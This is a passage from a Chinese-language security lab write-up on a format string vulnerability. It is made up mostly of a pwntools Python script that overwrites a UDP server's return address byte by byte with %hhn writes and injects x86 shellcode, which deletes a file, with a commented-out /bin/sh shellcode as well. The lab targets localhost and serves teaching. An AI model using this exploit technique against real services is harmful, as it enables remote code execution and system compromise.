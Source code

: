 接着由于高两个字节一次性覆盖输出字符太多，故采用`%hhn`单字节覆盖。由于`%hhn`这种没有被计算在长度内，故第11行需补充`len("%26$hhn") == 6`个字节。	

结果如下

![task5C](../images/lab5-task5C.png)

## Task 6: Inject Malicious Code into the Server Program

脚本如下

```python
from sys import *
from pwn import *

context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','sh','-c']

io = remote("127.0.0.1",9090,typ='udp')
#io = process('./vul')

# /bin/bash -c "/bin/rm /tmp/myfile"
shellcode = "1\xc0Phbashh////h/bin\x89\xe31\xc0Ph-ccc\x89\xe01\xd2Rhile h/myfh/tmph/rm h/bin\x89\xe21\xc9QRPS\x89\xe11\xd21\xc0\xb0\x0b\xcd\x80"

# execve("/bin/sh",0,0)
#shellcode ="1\xc0Ph//shh/bin\x89\xe3PS\x89\xe1\x99\xb0\x0b\xcd\x80\x00"
#print len(shellcode)

#shellcode_addr = 0xbfffe7c0 + 0x40
shellcode_addr = 0xbfffe820

# 1. rewrite ret_addr to shellcode_addr
#ret_addr = 0xbfffe79c
ret_addr = 0xbfffe79c

payload = p32(ret_addr) 
payload += p32(ret_addr+1)
payload += p32(ret_addr+2)
payload += p32(ret_addr+3)
payload += "%{}c".format(((shellcode_addr&0xff)-16+256)&0xff) 
payload += "%24$hhn"
payload += "%{}c".format((((shellcode_addr>>8)&0xff)-(shellcode_addr&0xff)+256)&0xff)
payload += "%25$hhn"
payload += "%{}c".format((((shellcode_addr>>16)&0xff)-((shellcode_addr>>8)&0xff)+256)&0xff)
payload += "%26$hhn"
payload += "%{}c".format((((shellcode_addr>>24)&0xff)-((shellcode_addr>>16)&0xff)+256)&0xff)
payload += "%27$hhnaa"

print len(payload)

#p = fmtstr_payload( 24, {ret_addr:shellcode_addr} ) + 'aa'
#print p==payload
payload += shellcode

print payload
pause()
io.sendline(payload)

```